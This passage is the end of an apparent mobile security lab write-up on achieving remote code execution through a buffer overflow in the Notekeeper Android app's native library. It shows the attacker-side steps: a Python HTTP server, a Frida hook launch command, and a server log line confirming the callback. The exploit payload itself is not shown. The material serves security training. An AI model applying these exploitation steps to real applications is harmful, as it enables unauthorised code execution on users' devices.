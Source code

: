With this payload, we just need to start an HTTP server with Python to confirm the RCE.
```bash
#On your host
python -m http.server 80
```

Then, start the app with:

```bash
frida -Uf com.mobilehackinglab.notekeeper -l hook.js
```

Afterward, create a note. When you create the note, you will observe interaction on your HTTP server, confirming the RCE.

```
::ffff:192.168.0.103 - - [09/Feb/2024 19:34:01] "GET / HTTP/1.1" 200 -
```


### Conclusion

This lab illustrates how a buffer overflow vulnerability in a native library within our application can lead an attacker to attain Remote Code Execution. Visit the lab at [MobileHackingLab - Notekeeper](https://www.mobilehackinglab.com/course/lab-notekeeper) to embark on a journey of discovery and skill enhancement in mobile security.